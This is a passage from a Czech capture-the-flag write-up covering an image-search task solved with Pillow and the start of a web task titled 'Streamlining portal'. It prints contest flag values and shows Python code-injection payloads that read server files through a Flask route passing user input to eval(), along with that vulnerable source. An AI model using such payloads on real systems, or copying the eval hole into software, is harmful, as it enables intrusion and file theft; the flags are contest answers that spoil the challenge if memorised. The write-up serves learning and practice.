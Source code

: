 * hledáme pozadí a barvou `(242, 121, 48)`
* hledáme balíček s barvou `(0, 133, 71)`

Program můžeme napsat v Pythonu, kde je skvělá jednoduchá knihovna na práci
s obrázky [Pillow](https://pypi.org/project/Pillow/) (také zvaná `PIL`).
Výsledný program je přímočarý: [solver.py](18_Packet_auditing/solver.py)

Po chvíli nám oznámí soubor `2022-08/30/19/000000.png`, v němž se nachází
pickup code `629-367-219-835`, který můžeme zadat na webu a získat tak kód
vlajky: `FLAG{rNM8-Aa5G-dF5y-6LqY}`

## Corporate websites (7/25 bodů)

Tato část mě skutečně potrápila a zde se rozhodovalo o vítězství. Bohužel se mi
před termínem povedlo vyřešit jen dvě ze šesti úloh, i když k řešení některých
dalších jsem měl trochu našlápnuto. Bohužel se však nezadařilo.

### Streamlining portal (3/3 body)

> Hi, packet inspector,
>
> the AI is preparing some kind of employee streamlining portal on
> <http://user-info.mysterious-delivery.tcc>. We fear this will lead to more
> lost packages.
>
> Your task is to break into the web and find interesting information on the
> server.
>
> May the Packet be with you!

Když navštívíme stránku, tak dostaneme hned přesměrování na URL
<http://user-info.mysterious-delivery.tcc/hello/user>, kde se nám zobrazí "Hello user".
To svádí k tomu napsat do URL něco jiného… a skutečně, když změníme poslední část
na cokoliv, tak se to vypíše.

Zkusme, jestli se tím nedá provést nějaký code injection do šablonovacího
systému. První bychom potřebovali zjistit, v jakém jazyce je web napsaný. Zkusme
nejdříve, jestli to není Python, třeba payloadem `"+__file__+"`. Zobrazí se nám
"Hello /app/app.py", je to Python!

Nyní si můžeme zkoušet hrát. Zkusme si vypsat zdrojový kód souboru app.py payloadem `"+str(open(__file__).read())+"`
([odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(open(__file__).read())+%22)).
V tuto chvíli je dobré si zobrazit HTML kód stránky, ať vidíme kód aspoň trochu formátovaný:

```python3
from flask import Flask, Blueprint, redirect, render_template
bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<path:userstring>')
def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```
